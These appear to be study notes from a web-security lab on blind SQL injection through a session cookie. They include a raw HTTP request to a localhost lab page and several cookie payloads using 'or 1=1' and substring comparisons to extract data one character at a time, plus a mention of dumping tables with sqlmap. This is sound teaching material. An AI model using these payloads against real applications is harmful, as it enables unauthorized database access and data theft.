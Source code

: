  changing the session will change the content length means invalid or simply search for the welcome to the dashboard word 
 try changing this 
 
```python 
 Cookie: session=6967cabefd763ac1a1a88e11159957db' or 1=1#
```
 notice that content length didn't change or we can simple search for the welcome word and see its there the fact that **We are able to change or manipulate the session cookie add some SQL to it and give us the same response instead of failing it indication of SQL Injection** 

#  ==Blind SQL Injection Attacks - Part 2==

## Continue.....

This is blind SQL Injection and this is because the query is only changing behavior of the  application i.e it will display the message welcome to your dashboard or it will display the login form
Its not actually gives us data from the database Its not returning anything
just giving us the change in behavior
And we are going to have to have to create the payload that produce True/False output and then based on that behavior we can slowly extract data 
Simply -> We can ask the database simple Yes or No questions
e.g Is the first character of the username is A Yes/No 
These types of question essentially allow us to extract data or info that is not going to be returned on screen
Constructing a query that gets the version character by character from the database
After that look how to dump the data rest of the data from the table using SQL map
The function which will get info for us is actually called substring 

https://www.w3schools.com/sql/func_mysql_substr.asp

We have substring string start length
start -> might be the first character second character or third character
length -> is the number of character we want to extract 

```python
GET /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('a', 1, 1) = 'a'#
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin

```

This is will result in the success of the content type and the welcome to the dashboard
But if we change this to the second character
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex', 2, 1) = 'a'#
```
We will get a failed
but I made to matched the second character "l" for example
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex', 2, 1) = 'l'#
```
We again get our success Or we can test for first 3 character directly "ale"
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex', 1, 3) = 'ale'#
```